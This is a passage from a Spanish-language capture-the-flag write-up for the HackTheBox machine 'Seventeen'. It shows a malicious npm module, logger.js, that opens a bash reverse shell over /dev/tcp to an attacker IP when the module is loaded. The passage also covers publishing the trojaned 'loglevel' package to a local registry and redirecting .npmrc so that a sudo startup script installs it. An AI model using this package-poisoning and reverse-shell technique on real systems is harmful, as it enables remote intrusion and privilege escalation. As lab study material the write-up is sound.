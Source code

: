 ```shell
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC"
}


Is this OK? (yes) 
```
Creamos un archivo logger.js con el contenido malicioso.

```js
require("child_process").exec("bash -c 'bash -i >& /dev/tcp/10.10.14.27/9001 0>&1'")
function log(msg) {
console.log("[+] " + msg)
}
module.exports.log = log
```
```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Seventeen/exploits$ npm adduser --registry http://localhost:4873
npm notice Log in on http://localhost:4873/
Username: guero
Password: 
Email: (this IS public) guero@guero.htb
Logged in as guero on http://localhost:4873/.
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Seventeen/exploits$ npm publish --registry http://localhost:4873
npm notice 
npm notice 📦  loglevel@2.0.0
npm notice === Tarball Contents === 
npm notice 234B /index.js    
npm notice 204B /package.json
npm notice === Tarball Details === 
npm notice name:          loglevel                                
npm notice version:       2.0.0                                   
npm notice filename:      loglevel-2.0.0.tgz                      
npm notice package size:  374 B                                   
npm notice unpacked size: 438 B                                   
npm notice shasum:        336d97a8e0305f483fd908a3bebc27135e7a1664
npm notice integrity:     sha512-+kCOPdIp4PQE8[...]NgipNneByIe0Q==
npm notice total files:   2                                       
npm notice 
+ loglevel@2.0.0
```
Montado el servicio con el archivo malicioso, procedemos a cambiar el archivo .npmrc con nuestra ip y después ejecutamos para tener la bash suid.

```shell
kavi@seventeen:/opt/app$ echo 'registry=http://10.10.14.5:4873/' > ~/.npmrc; sudo /opt/app/startup.sh
[=] Checking for db-logger
[+] db-logger already installed
[=] Checking for loglevel
[+] Installing loglevel
/opt/app
├── loglevel@1.1.3 
└── mysql@2.18.1 

[+] Starting the app
[+] INFO:  Server running on port 8000


```